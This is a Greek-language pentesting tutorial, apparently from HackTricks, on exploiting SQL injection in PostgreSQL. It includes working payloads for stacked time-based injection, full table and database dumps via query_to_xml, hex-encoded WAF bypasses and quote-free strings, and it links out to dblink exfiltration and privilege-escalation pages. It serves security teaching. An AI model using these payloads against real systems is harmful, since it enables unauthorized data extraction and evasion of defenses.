 # PostgreSQL injection

{{#include ../../../banners/hacktricks-training.md}}

<figure><img src="../../../images/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Αν ενδιαφέρεστε για **καριέρα στον hacking** και να χακάρετε το μη χακάρισμα - **προσλαμβάνουμε!** (_απαιτείται άριστη γνώση πολωνικών, γραπτά και προφορικά_).

{% embed url="https://www.stmcyber.com/careers" %}

---

**Αυτή η σελίδα αποσκοπεί στο να εξηγήσει διάφορα κόλπα που θα μπορούσαν να σας βοηθήσουν να εκμεταλλευτείτε μια SQL injection που βρέθηκε σε μια βάση δεδομένων postgresql και να συμπληρώσετε τα κόλπα που μπορείτε να βρείτε στο** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)

## Network Interaction - Privilege Escalation, Port Scanner, NTLM challenge response disclosure & Exfiltration

Το **PostgreSQL module `dblink`** προσφέρει δυνατότητες για σύνδεση σε άλλες παρουσίες PostgreSQL και εκτέλεση TCP συνδέσεων. Αυτές οι δυνατότητες, σε συνδυασμό με τη λειτουργία `COPY FROM`, επιτρέπουν ενέργειες όπως η κλιμάκωση προνομίων, η σάρωση θυρών και η σύλληψη απαντήσεων NTLM challenge. Για λεπτομερείς μεθόδους εκτέλεσης αυτών των επιθέσεων δείτε πώς να [εκτελέσετε αυτές τις επιθέσεις](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md).

### **Παράδειγμα εξαγωγής χρησιμοποιώντας dblink και μεγάλα αντικείμενα**

Μπορείτε να [**διαβάσετε αυτό το παράδειγμα**](dblink-lo_import-data-exfiltration.md) για να δείτε ένα παράδειγμα CTF του **πώς να φορτώσετε δεδομένα μέσα σε μεγάλα αντικείμενα και στη συνέχεια να εξάγετε το περιεχόμενο των μεγάλων αντικειμένων μέσα στο όνομα χρήστη** της συνάρτησης `dblink_connect`.

## PostgreSQL Attacks: Read/write, RCE, privesc

Δείτε πώς να συμβιβάσετε τον host και να κλιμακώσετε προνόμια από PostgreSQL στο:

{{#ref}}
../../../network-services-pentesting/pentesting-postgresql.md
{{#endref}}

## WAF bypass

### PostgreSQL String functions

Η χειραγώγηση συμβολοσειρών θα μπορούσε να σας βοηθήσει να **παρακάμψετε WAFs ή άλλους περιορισμούς**.\
[**Σε αυτή τη σελίδα** ](https://www.postgresqltutorial.com/postgresql-string-functions/)**μπορείτε να βρείτε μερικές χρήσιμες συναρτήσεις συμβολοσειρών.**

### Stacked Queries

Θυμηθείτε ότι το postgresql υποστηρίζει στοίβες ερωτημάτων, αλλά πολλές εφαρμογές θα ρίξουν ένα σφάλμα αν επιστραφούν 2 απαντήσεις όταν αναμένονται μόνο 1. Αλλά, μπορείτε ακόμα να εκμεταλλευτείτε τις στοίβες ερωτημάτων μέσω Time injection:
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### XML tricks

**query_to_xml**

Αυτή η συνάρτηση θα επιστρέψει όλα τα δεδομένα σε μορφή XML σε ένα μόνο αρχείο. Είναι ιδανική αν θέλετε να εξάγετε πολλά δεδομένα σε μία μόνο γραμμή:
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database_to_xml**

Αυτή η συνάρτηση θα εξάγει ολόκληρη τη βάση δεδομένων σε μορφή XML σε μόλις 1 γραμμή (προσοχή αν η βάση δεδομένων είναι πολύ μεγάλη καθώς μπορεί να προκαλέσετε DoS ή ακόμα και στον δικό σας πελάτη):
```sql
SELECT database_to_xml(true,true,'');
```
### Strings in Hex

Αν μπορείτε να εκτελέσετε **queries** περνώντας τα **μέσα σε μια συμβολοσειρά** (για παράδειγμα χρησιμοποιώντας τη λειτουργία **`query_to_xml`**). **Μπορείτε να χρησιμοποιήσετε το convert_from για να περάσετε τη συμβολοσειρά ως hex και να παρακάμψετε τα φίλτρα με αυτόν τον τρόπο:**
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
### Απαγορευμένα αποσπάσματα

Εάν δεν μπορείτε να χρησιμοποιήσετε αποσπάσματα για το payload σας, μπορείτε να παρακάμψετε αυτό με το `CHR` για βασικές ρήτρες (_η συγχώνευση χαρακτήρων λειτουργεί μόνο για βασικά ερωτήματα όπως SELECT, INSERT, DELETE, κ.λπ. Δεν λειτουργεί για όλες τις δηλώσεις SQL_):
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
Ή με το `$`. Αυτές οι ερωτήσεις επιστρέφουν τα ίδια αποτελέσματα:
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../images/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Αν ενδιαφέρεστε για **καριέρα στον hacking** και να χακάρετε το αχάρακτο - **προσλαμβάνουμε!** (_απαιτείται άπταιστη γραφή και ομιλία στα πολωνικά_).

{% embed url="https://www.stmcyber.com/careers" %}

{{#include ../../../banners/hacktricks-training.md}}
